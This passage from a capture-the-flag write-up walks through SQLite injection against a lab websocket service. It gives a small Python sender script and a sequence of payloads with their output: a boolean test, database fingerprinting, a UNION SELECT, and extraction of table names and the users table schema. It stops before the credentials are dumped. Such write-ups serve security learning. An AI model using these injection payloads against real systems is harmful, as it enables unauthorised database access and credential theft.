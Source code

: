 ### SQLite Injection

The next thing to try is SQL injection.    
I will upgrade my python script so I do not have to edit it anymore.

```python
import websocket
import json
import sys

ws = websocket.create_connection("ws://ws.qreader.htb:5789/version")
ws.send(json.dumps({"version":sys.argv[1]}))
print(ws.recv())
```

And I will send a simple test query for seeing if it is vulnerable.

```
history ~ $ python3 web.py '0" OR 1=1-- -'
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

And we can see it is vulnerable to SQL injection.    
Now it is time to detect the database server.

```
history ~ $ python3 web.py '0" OR sqlite_version()=sqlite_version()-- -'
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

And we can see it does not give any error, so it is running `sqlite` as backend DBMS.    
Once we know that, we can try a union injection.

```
history ~ $ python3 web.py '0" UNION SELECT 1,2,3,4-- -'
{"message": {"id": 1, "version": 2, "released_date": 3, "downloads": 4}}
```

So now that we know that we can perform a union injection, we can dump all table names:

```
history ~ $ python3 web.py '0" UNION SELECT 1,2,group_concat(tbl_name),4 FROM sqlite_master WHERE type="table" and tbl_name NOT like "sqlite_%"-- -'
{"message": {"id": 1, "version": 2, "released_date": "versions,users,info,reports,answers", "downloads": 4}}
```

And we have the tables: `versions,users,info,reports,answers`.    
Now we will need to know the structure of the table users, it is the most likely to have passwords or relevant information.

```
history ~ $ python3 web.py '0" UNION SELECT 1,2,sql,4 FROM sqlite_master WHERE type!="meta" AND sql NOT NULL AND name ="users"-- -'
{"message": {"id": 1, "version": 2, "released_date": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "downloads": 4}}
```

We can see two interesting fields, `username` and `password`.    
It is time to dump them.
